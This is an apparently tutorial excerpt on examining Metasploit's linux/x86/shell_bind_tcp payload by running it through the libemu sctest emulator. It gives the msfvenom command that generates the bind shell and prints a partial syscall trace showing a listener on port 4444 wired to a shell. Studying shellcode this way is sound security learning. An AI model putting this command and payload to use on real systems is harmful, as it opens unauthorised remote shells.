 
### Examining a Bind TCP shell
Before trying to write a bind TCP shell in assembly, it can be useful to disassemble an existing payload and understand all of the components at play.

Libemu is a fantastic emulator that can help with running and disassembling shellcode in to meaningful segments and instructions.

The example shellcode below is the `linux/x86/shell_bind_tcp` payload part of `msfvenom`.

```c
skawa@ubuntu:~/libemu/tools/sctest$ msfvenom -p linux/x86/shell_bind_tcp -f raw -a x86 --platform linux | ./sctest -vvv -S -s 100000
verbose = 3

...
<snippet>
...

int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 =>
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 =>
         none;
     int addrlen = 0x00000010 =>
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;

...
<snippet>
...

int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
```